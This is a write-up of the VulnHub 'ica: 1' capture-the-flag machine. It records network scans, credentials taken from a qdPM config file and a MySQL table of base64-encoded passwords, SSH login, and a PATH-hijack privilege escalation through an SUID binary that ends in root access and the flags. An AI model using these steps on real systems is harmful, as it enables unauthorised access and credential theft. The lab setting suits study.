

[vulnhub - easy] ica: 1
-----------------------

The first thing I do is scan the host-only network to get the machine's ip:

```
┌──(j㉿kali)-[~/Machines/ica-1]
└─$ fping -aqg 192.168.56.0/24
192.168.56.1
192.168.56.100
192.168.56.101
```

Next step is to access 192.168.56.101 on the browser just to see what is being served and at the same time nmap it to see what is being served in the other ports:



Scan results:

```
┌──(j㉿kali)-[~/Machines/ica-1]
└─$ nmap -p- -T4 -oN nmap_info_allports 192.168.56.101                    
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-25 13:45 -03
Nmap scan report for 192.168.56.101
Host is up (0.000092s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  mysqlx

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

```
┌──(j㉿kali)-[~/Machines/ica-1]
└─$ nmap -sC -sV -p 22,80,3306,33060 -oN nmap_info_detailed 192.168.56.101
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-25 13:50 -03
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 13:50 (0:00:06 remaining)
Nmap scan report for 192.168.56.101
Host is up (0.00038s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 0e77d9cbf80541b9e44571c101acda93 (RSA)
|   256 4051934bf83785fda5f4d727416ca0a5 (ECDSA)
|_  256 098560c535c14d837693fbc7f0cd7b8e (ED25519)
80/tcp    open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: qdPM | Login
3306/tcp  open  mysql   MySQL 8.0.26
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-09-25T10:47:29
|_Not valid after:  2031-09-23T10:47:29
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.26
|   Thread ID: 118
|   Capabilities flags: 65535
|   Some Capabilities: SupportsCompression, Support41Auth, ODBCClient, LongColumnFlag, LongPassword, Speaks41ProtocolNew, SupportsTransactions, DontAllowDatabaseTableColumn, IgnoreSigpipes, SwitchToSSLAfterHandshake, InteractiveClient, FoundRows, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, ConnectWithDatabase, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: /9@5`I'Z\x04}\x04<t7\x0CG\x15\x108I
|_  Auth Plugin Name: caching_sha2_password
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=11/25%Time=6380F26A%P=x86_64-pc-linux-gnu%r(
SF:NULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPO
SF:ptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0
SF:b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVer
SF:sionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,
SF:2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0f
SF:Invalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0"
SF:)%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x0
SF:1\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCooki
SF:e,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\
SF:"\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05
SF:\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY
SF:000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
SF:\x05HY000")%r(LDAPBindReq,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01
SF:\x08\x01\x10\x88'\x1a\*Parse\x20error\x20unserializing\x20protobuf\x20m
SF:essage\"\x05HY000")%r(SIPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LA
SF:NDesk-RC,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0
SF:\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesR
SF:PC,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\
SF:x0fInvalid\x20message\"\x05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,
SF:"\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invali
SF:d\x20message-frame\.\"\x05HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x1
SF:0\x88'\x1a\x0fInvalid\x20message\"\x05HY000");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds
```

The website being served is the project management tool qdPM version 9.2. When googling for exploits for this tool, I find out this exploit: https://www.exploit-db.com/exploits/50176.

I then proceed to http://192.168.56.101/core/config/databases.yml and download the "databases.yml" file, that reads:

```
┌──(j㉿kali)-[~/Machines/ica-1]
└─$ cat databases.yml 
  
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
```

So I try to log into port served in 3306 as shown in the scan with these credentials:

```
┌──(j㉿kali)-[~/Machines/ica-1]
└─$ mysql -h 192.168.56.101 -u qdpmadmin -p qdpm
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 150
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [qdpm]> 
```

I then proceed to snoop around to see if there's anything useful in it, and inside the database "staff" I find the tables "user" and "staff":

```
MySQL [staff]> select * from login;
+------+---------+--------------------------+
| id   | user_id | password                 |
+------+---------+--------------------------+
|    1 |       2 | c3VSSkFkR3dMcDhkeTNyRg== |
|    2 |       4 | N1p3VjRxdGc0MmNtVVhHWA== |
|    3 |       1 | WDdNUWtQM1cyOWZld0hkQw== |
|    4 |       3 | REpjZVZ5OThXMjhZN3dMZw== |
|    5 |       5 | Y3FObkJXQ0J5UzJEdUpTeQ== |
+------+---------+--------------------------+
5 rows in set (0.001 sec)

MySQL [staff]> select * from user;
+------+---------------+--------+---------------------------+
| id   | department_id | name   | role                      |
+------+---------------+--------+---------------------------+
|    1 |             1 | Smith  | Cyber Security Specialist |
|    2 |             2 | Lucas  | Computer Engineer         |
|    3 |             1 | Travis | Intelligence Specialist   |
|    4 |             1 | Dexter | Cyber Security Analyst    |
|    5 |             2 | Meyer  | Genetic Engineer          |
+------+---------------+--------+---------------------------+
5 rows in set (0.001 sec)
```

The passwords are base64-encoded. I decode them and attempt to ssh with the names and passwords. User 'dexter' and password '7ZwV4qtg42cmUXGX':

```
┌──(j㉿kali)-[~/Machines/ica-1]
└─$ ssh dexter@192.168.56.101
dexter@192.168.56.101's password: 
Linux debian 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Nov 25 12:43:34 2022 from 192.168.56.1
dexter@debian:~$ 
```

There's a file named "note.txt" in the user's home folder, the note reads:

```
dexter@debian:~$ cat note.txt 
It seems to me that there is a weakness while accessing the system.
As far as I know, the contents of executable files are partially viewable.
I need to find out if there is a vulnerability or not.
```

After trying a few things, I search for SUID binaries:

```
dexter@debian:~$ find / -perm -u=s -type f 2>/dev/null
/opt/get_access
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

The binary that stands out is the /opt/get_access, so I run it:

```
dexter@debian:~$ /opt/get_access 

  ############################
  ########     ICA     #######
  ### ACCESS TO THE SYSTEM ###
  ############################

  Server Information:
   - Firewall:  AIwall v9.5.2
   - OS:        Debian 11 "bullseye"
   - Network:   Local Secure Network 2 (LSN2) v 2.4.1

All services are disabled. Accessing to the system is allowed only within working hours.
```

It is clearly a script that runs other commands, when I run "strings /opt/get_access", I find out that it uses the "cat" command:

```
dexter@debian:~$ strings /opt/get_access
...
cat /root/system.info 
...
```

I then create a "bin" folder in the home, add a "cat" file that contains "/bin/bash" in it, make it executable and add the bin folder to the path, execute the /opt/get_access binary and get root:

```
dexter@debian:/home/dexter$ mkdir bin
dexter@debian:/home/dexter$ echo "/bin/bash" > bin/cat
dexter@debian:/home/dexter$ chmod +x bin/cat 
dexter@debian:/home/dexter$ export PATH="/home/dexter/bin:$PATH"
dexter@debian:/home/dexter$ /opt/get_access 
root@debian:/home/dexter#
```

Then I remove the previously added directory from the path and cat the flags:

```
root@debian:/root# export PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
root@debian:/root# cat root.txt 
ICA{Next_Generation_Self_Renewable_Genetics}
root@debian:/root# cat /home/travis/user.txt 
ICA{Secret_Project}
```


